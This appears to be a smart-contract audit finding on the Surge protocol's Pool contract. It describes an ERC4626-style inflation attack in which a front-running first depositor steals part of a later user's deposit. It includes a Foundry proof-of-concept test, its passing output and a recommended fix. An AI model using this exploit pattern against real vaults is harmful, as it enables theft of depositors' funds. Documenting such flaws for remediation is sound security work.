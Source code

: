 bin2chen

high

# deposit() front-run steal funds

## Summary
Similar to ERC4626 inflation attacks , front-run steal funds
## Vulnerability Detail

Pool.sol currently loanTokenBalance come from LOAN_TOKEN.balanceOf(this), it will give the possibility of inflation attacks

The conversion formula is as follows:
```solidity
    function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
        if(_supplied == 0) return _tokenAmount;
        uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
        if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
        return shares;
    }
```
Malicious users can front-run the first deposit and execute inflation attacks
Example:
Assuming that no one has deposited yet, alice monitors the memory pool and finds that bob has a transaction and will deposit 1000

1.alice front-run deposit(2):
totalSupply = 2 
totalAsset = 2
alice shares =2
2.and directly transfer 1000 to pool use loan_token.transfer(pool,1000):
totalSupply = 2 
totalAsset = 1002
alice shares =2

3.then it's bob's turn for the transaction to be executed , deposit(1000):
bob get shares = 1000 * 2 / 1002 = 1    (round down)   

so now:
totalSupply = 3 
totalAsset = 2002
alice shares =2
bo shares =1

4.alice withdraw all get:  2 * 2002 / 3 = 1334   (steal 332)

Here is the test code：
add to Pool.t.sol
```solidity
    function test4626() external {
        uint amount = 1e36;
        MockERC20 loanToken = new MockERC20(amount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(new MockERC20(amount, 18))), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        
        //1.give balance:  alice = 1002 bob =1000
        address alice = address(1);
        address bob = address(2);
        loanToken.transfer(alice, 1002);
        loanToken.transfer(bob, 1000);
        assertEq(loanToken.balanceOf(alice), 1002);
        assertEq(loanToken.balanceOf(bob), 1000);

        //2.alice front-run bob 
        //2.1 front-run deposit 2
        //2.2 and directly transfer 1000 to pool
        //2.3 so get shares = 2 , totalAsset = 1002
        vm.startPrank(alice);        
        loanToken.approve(address(pool), 1002);
        pool.deposit(2);
        loanToken.transfer(address(pool), 1000);  //  directly transfer 
        vm.stopPrank();

        //3 bob deposit 1000
        //3.1 so bob get shares = 1 ,totalAsset = 2002
        vm.startPrank(bob); 
        loanToken.approve(address(pool), 1000);
        pool.deposit(1000); 
        vm.stopPrank();    

        //4.alice withdraw all ,get 2002 * 2/3 = 1334 (steal 332 )
        vm.startPrank(alice);   
        pool.withdraw(type(uint).max);
        assertEq(loanToken.balanceOf(alice), 1334);
        vm.stopPrank();  
        
        //5.bob withdraw all ,get 2002 - 1334 = 668 (lost 332)
        vm.startPrank(bob);   
        pool.withdraw(type(uint).max);
        assertEq(loanToken.balanceOf(bob), 668);
        vm.stopPrank();  

        //6.check pool left 0
        assertEq(loanToken.balanceOf(address(pool)), 0);           

    }
```
```console
$ forge test --match test4626 -vvv

Running 1 test for test/Pool.t.sol:PoolTest
[PASS] test4626() (gas: 2818872)
Test result: ok. 1 passed; 0 failed; finished in 9.39ms
```


## Impact
steal user funds
## Code Snippet

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L308

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204

## Tool used

Manual Review

## Recommendation
Use variables to record the current deposit, or refer to:

https://ethereum-magicians.org/t/address-eip-4626-inflation-attacks-with-virtual-shares-and-assets/12677/7
